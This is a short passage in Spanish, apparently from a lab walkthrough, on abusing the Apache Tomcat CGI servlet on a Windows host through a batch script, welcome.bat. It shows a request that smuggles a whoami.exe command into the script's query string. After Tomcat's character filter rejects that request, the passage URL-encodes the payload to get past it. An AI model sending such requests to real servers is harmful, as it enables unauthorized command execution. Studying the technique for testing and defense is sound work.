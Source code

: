 ```r
X_TOMCAT_SCRIPT_PATH=C:\Program Files\Apache Software Foundation\Tomcat 9.0\webapps\ROOT\WEB-INF\cgi\welcome.bat
```

De la lista, podemos ver que la variable `PATH` ha sido deshabilitada, por lo que necesitaremos codificar las rutas en las solicitudes:

```r
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

El intento no tuvo éxito y Tomcat respondió con un mensaje de error que indica que se encontró un carácter no válido. Apache Tomcat introdujo un parche que utiliza una expresión regular para evitar el uso de caracteres especiales. Sin embargo, el filtro se puede eludir codificando la carga útil en URL.

```r
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```